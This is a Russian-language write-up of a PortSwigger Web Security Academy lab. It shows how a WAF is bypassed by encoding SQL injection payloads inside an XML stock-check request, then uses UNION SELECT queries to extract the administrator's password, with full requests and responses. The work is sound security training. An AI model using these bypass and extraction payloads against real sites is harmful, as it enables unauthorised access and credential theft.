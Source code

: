 ```yaml
---
title: "SQL injection with filter bypass via XML encoding"
date: 2025-06-19
tags: [sqli, writeup]
header:
  overlay_image: /assets/images/ps_logo.webp
  overlay_filter: 0.5 
---
```


**Source:** [Coffee Cube](https://t.me/coffee_cube)  
**Lab:** [PortSwigger](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-in-different-contexts/sql-injection/lab-sql-injection-with-filter-bypass-via-xml-encoding)


## Scope

```
https://0a870041040afc00b575af4f00f900e1.web-security-academy.net/
```

В лабе есть уязвимая к **SQL injection** проверка товара в магазине. В БД есть таблица `users`, которая содержит в себе списки зарегистрированных пользователей с их паролями. Для прохождения нужно получить доступ к личному кабинету администратора.


## Solution

Первым делом нужно найти уязвимый запрос. На странице товара есть кнопка `check stock`, при нажатии она отправляет запрос на сервер. Сам запрос выглядит так:

```http
POST /product/stock HTTP/2
Host: 0a870041040afc00b575af4f00f900e1.web-security-academy.net
Cookie: session=K3VtfuVea5xBSJ82exXvOubl0Ohs9Gb0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a870041040afc00b575af4f00f900e1.web-security-academy.net/product?productId=1
Content-Type: application/xml
Content-Length: 107
Origin: https://0a870041040afc00b575af4f00f900e1.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

Можно заметить, что тело запроса содержит `XML` документ. В нем есть 2 значения: `productId` и `storedId`. Попробую подставить пейлоад в эти параметры:

```xml
<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1';</storeId></stockCheck>
```

Мне пришел ответ с сообщением `Attack detected`:

```http
HTTP/2 403 Forbidden
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 17

"Attack detected"
```

Скорее всего на сайте используется `WAF`. Для обхода попробую кодировать пейлод в `HEX` формат. Для этого `Burp Suite Academy` предлагает установить расширение [hackvertor](https://github.com/hackvertor/hackvertor/releases/tag/v1.8.10).

![IMG](/assets/images/IMG_union_sql/IMG_SQL-injection-with-filter-bypass-via-XML-encoding/1.png){: height="200" .align-center}

Итак, попробую подобрать пейлоад для поля `StoredId`:

```
1+1 - Ok
1+2 - Ok
1 UNION SELECT '1234'-- -
```

```http
HTTP/2 200 OK
Content-Type: text/plain; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 14

1234
953 units
```

Попробую получить пароль для пользователя `administrator` с помощью следующего пейлоада:

```
1 UNION SELECT password FROM users WHERE username = 'administrator'-- -
```

```http
HTTP/2 200 OK
Content-Type: text/plain; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 30

06g5dq8793lynap20w97
953 units
```

Проверю пароль:

![IMG](/assets/images/IMG_union_sql/IMG_SQL-injection-with-filter-bypass-via-XML-encoding/2.png){: height="200" .align-center}

Я в системе)
